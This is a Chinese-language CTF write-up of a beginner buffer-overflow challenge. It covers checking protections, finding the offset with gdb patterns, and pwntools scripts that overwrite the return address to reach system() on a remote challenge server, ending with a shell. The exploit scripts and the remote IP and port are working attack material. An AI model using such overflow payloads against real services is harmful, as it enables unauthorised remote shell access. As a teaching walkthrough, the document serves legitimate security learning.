# Pwn基础溢出练习

又一个PWN1，先看看安全保护机制



看看main()



看看shift+F12字符串



利用get()溢出到system()，system()上通过Ctrl+E找到地址401040



双击s字符串，发现溢出长度应为15字节+8字节（db 8 dup(?)），即偏移量23



db： 定义字节类型变量的伪指令


dup()： 重复定义圆括号中指定的初值，次数由前面的数值决定


?： 只分配存储空间，不指定初值




开gdb调试```gdb pwn1```

生成溢出字符串```pattern create 200```

`AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA`

启动程序`start`

步进`contin `并输入溢出字符串获得溢出调试



`pattern offset  (这里粘贴栈底或者rbp的字符串)`



wc，偏移长度怎么是24？？？

不管了，python脚本一把梭试试看（堆栈平衡要+1）

```python
from pwn import *

p = remote('118.190.151.140',60001)
payload = b'a' * 24 + p64(0x401040 + 1)
p.sendline(payload)

p.interactive()
```

果不其然，翻车了




仔细检查一下，发现引入函数的地址不对应该是0x401142



```python
from pwn import *

p = remote('118.190.151.140',60001)
payload = b'a' * 24 + p64(0x401142 + 1)
p.sendline(payload)

p.interactive()
```

成功获得Shell

